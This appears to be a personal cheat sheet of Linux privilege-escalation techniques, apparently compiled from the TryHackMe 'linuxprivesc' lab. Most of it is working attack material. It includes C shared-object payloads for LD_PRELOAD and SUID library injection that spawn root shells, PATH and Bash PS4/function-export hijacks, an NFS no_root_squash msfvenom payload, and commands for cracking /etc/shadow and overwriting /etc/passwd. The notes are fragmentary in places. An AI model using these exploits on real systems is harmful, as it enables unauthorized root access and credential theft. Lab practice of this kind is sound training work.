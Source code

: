 ###
```
sudo su - 
su - 
bash -p
```

### 
https://tryhackme.com/room/linuxprivesc


###sudo -l
```
Linux VM

1. In command prompt type: sudo -l
2. From the output, notice that the LD_PRELOAD environment variable is intact.

Exploitation

1. Open a text editor and type:

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

2. Save the file as x.c
3. In command prompt type:
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
4. In command prompt type:
sudo LD_PRELOAD=/tmp/x.so apache2
5. In command prompt type: id
```
```
sudo earlier than 1.8.26
Check *** pwfeedback https://github.com/saleemrashid/sudo-cve-2019-18634




history

find .

cat /etc/os-release
uname -a




```
```
https://www.hackingarticles.in/linux-privilege-escalation-automated-script/
https://github.com/belane/linux-soft-exploit-suggester
```
```
pspy
https://github.com/DominicBreuker/pspy

```
### SUID / SGID Executables - Abusing Shell Features (#2)
```Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.
Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

/tmp/rootbash -p
```

```
Detection

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command line type:
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
4. From the output, notice that a .so file is missing from a writable directory.

Exploitation

Linux VM

5. In command prompt type: mkdir /home/user/.config
6. In command prompt type: cd /home/user/.config
7. Open a text editor and type:

#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}

8. Save the file as libcalc.c
9. In command prompt type:
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
10. In command prompt type: /usr/local/bin/suid-so
11. In command prompt type: id
```
### SUID(ENV Variable )
```
Detection

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command prompt type: strings /usr/local/bin/suid-env
4. From the output, notice the functions used by the binary.

Exploitation

Linux VM

1. In command prompt type:
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
2. In command prompt type: gcc /tmp/service.c -o /tmp/service
3. In command prompt type: export PATH=/tmp:$PATH
4. In command prompt type: /usr/local/bin/suid-env
5. In command prompt type: id
```
```
---------------------------------------------
python -c 'import os;os.execl("/bin/sh","sh","-p")'
------------------------------------------------
Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.
Check the NFS share configuration on the Debian VM:

cat /etc/exports

Note that the /tmp share has root squashing disabled.
On your Kali box, switch to your root user if you are not already running as root:
sudo su

Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):

mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs

Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

Still using Kali's root user, make the file executable and set the SUID permission:
chmod +xs /tmp/nfs/shell.elf

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:
/tmp/shell.elf
```

```
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)
The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a popular exploit that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

ls -l /etc/shadow
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

ls -l /etc/shadow
mkpasswd -m sha-512 newpasswordhere

ls -l /etc/passwd
openssl passwd newpasswordhere
root:Z.5x9gGZx7J7U:0:0:root:/root:/bin/bash

 
```
### LD_PRELOAD
```
/home/kali/priv/linux/tools/sudo/preload.c

```
![image](https://user-images.githubusercontent.com/9059079/120900722-687b1e00-c604-11eb-9020-8b1b9e5b59c1.png)

```
/home/kali/priv/linux/tools/sudo/library_path.c
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp apache2
```
```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
/tmp/rootbash -p
```
![image](https://user-images.githubusercontent.com/9059079/120907045-51e8bd00-c62c-11eb-85bd-c01fd4fdc4ba.png)
### Note that the tar command is being run with a wildcard (*) in your home directory.
![image](https://user-images.githubusercontent.com/9059079/120907077-b3a92700-c62c-11eb-80c9-b2d894c3684b.png)

![image](https://user-images.githubusercontent.com/9059079/120907091-cb80ab00-c62c-11eb-9b24-ec9a83439104.png)
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null


```

### The /usr/local/bin/suid-so SUID executable is vulnerable to shared object injection
```
/home/kali/priv/linux/tools/suid/libcalc.c
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```
![image](https://user-images.githubusercontent.com/9059079/120907159-4944b680-c62d-11eb-8490-1ab5b6b7b339.png)

### SUID / SGID Executables - Environment Variables
```
gcc -o service /home/user/tools/suid/service.c

strings /usr/local/bin/suid-env
PATH=.:$PATH /usr/local/bin/suid-env
```
### /bin/bash --version In Bash versions <4.2-048 i
```
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2
```
kdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
```

```
![image](https://user-images.githubusercontent.com/9059079/120907301-52825300-c62e-11eb-8807-4cdb22c86d89.png)

